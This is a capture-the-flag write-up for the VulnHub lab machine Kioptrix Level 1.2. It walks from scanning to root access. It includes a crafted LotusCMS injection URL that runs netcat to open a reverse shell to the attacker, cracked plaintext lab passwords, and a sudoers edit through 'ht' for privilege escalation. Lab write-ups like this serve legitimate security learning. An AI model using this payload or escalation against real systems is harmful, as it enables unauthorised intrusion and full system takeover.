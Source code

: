 # Kioptrix: Level 1.2 

- [Tools](#tools)
- [Gaining Access](#gaining-access)
- [Priviledge Escalation](#priviledge-escalation)

Machine: https://www.vulnhub.com/entry/kioptrix-level-12-3,24/

## Tools
1. [NMap](https://NMap.org)
2. dirb

## Gaining Access
1. Got IP with netdiscover, in my case IP is 192.168.0.13. At first as usual scanned with nmap.
2. Running dirb gives us some links.
3. If we open the ip there is a website. 
4. If we click on login, we can get login panel powered by LotusCMS.
5. If we google `LotusCMS RCE exploit`. We can find many exploits to get RCE. So, I studied the exploit and crafted a payload for reverse shell. Opening the crafted link gives reverse shell. `http://192.168.0.13/index.php?page=index%27)%3B%24{system(%27nc+-e+%2Fbin%2Fsh+<ip address>+<port number>%27)}%3B%23` while listening on netcat if we open that link we will get a reverse shell.

## Priviledge Escalation
1. After some searching, I got some credentials inside `/home/www/kioptrix3.com/gallery/gconfig.php`.
2. We can use this credential on a previously found link using dirb `http://192.168.0.13/phpmyadmin/`. 
3. After logging in we get two username and hash inside database.
4. So, if we decrypt those hash using crackstation, we get password of `dreg` is `Mast3r` and pasword of `loneferret` is `starwars`.
5. We can get ssh using those credentials. As dreg I got nothing important. So, I tried `loneferret` and `sudo` is enabled there and got some `sudo binary`.
6. `su` is not exploitable as user `loneferret`, so I tried to exploit `ht` and to exploit `ht` I need to `export TERM=xterm`.
7. Now I found this article https://vk9-sec.com/ht-privilege-escalation/ and followed these simple steps to root. So, at first I opened `sudo ht` and then pressed `F3` to select `/etc/sudoers` to open.
8. Now added `/bin/bash` to sudoers as instructed in the article and saved the file with `F2` and quit with `F10` or `CTRL+C`.
9. Now just use `sudo /bin/bash` to get root shell.
10. Now we can find a file `Congrats.txt` inside `/root` directory and this is the flag file containing a big paragraph.

Author: Zishan Ahamed Thandar
